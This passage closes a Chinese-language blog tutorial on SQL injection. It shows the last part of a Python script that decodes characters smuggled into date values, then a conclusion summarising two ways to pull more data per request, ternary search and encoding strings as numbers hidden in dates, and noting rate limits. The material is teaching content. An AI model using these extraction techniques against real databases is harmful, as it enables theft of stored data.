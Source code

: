``` python
    count = 0
    while diff > 0:
      num = diff % 128
      if num == 0:
        is_finished = True
        break
      count+=1
      result += chr(num)
      diff = int((diff - num) / 128)

    if count != fetch_per_union:
      is_finished = True
      break

    if is_finished:
      break
    print("current:", result)

  if is_finished:
    break

print("result:", result)
print(f"time: {time.time() - start}s")
```

執行結果會長這樣，可以看到每一筆資料的 end 都攜帶了 3 個字元的資訊在裡面：

![](/img/posts/huli/sql-injection-in-action/p8.png)

這次只用了 1 個 query，總共花了 4 秒，就得到了 30 個字元，大多數時間其實都是花在 SQL 對於 query 的處理。

## 結語

所有範例程式碼都在這邊：https://github.com/aszx87410/demo/tree/master/sql-injection

雖然說大部分狀況可能用多執行緒就可以搞定了，但要考慮到有些 Server 可能有 rate limiting，沒辦法送這麼多 request。撇開繞過 rate limiting 不談，我認為如何讓一個 query 傳回最大的資訊量，並且減少 request 的數量這件事情滿有趣的，因此才有了這篇文章還有各式各樣的方法。

第一個案例中最後是用了三分搜降低 request 數量，第二個案例則是用了把字串轉成數字的方式，將資料偷渡到日期裡，並用多個日期來偷渡更多的字元。
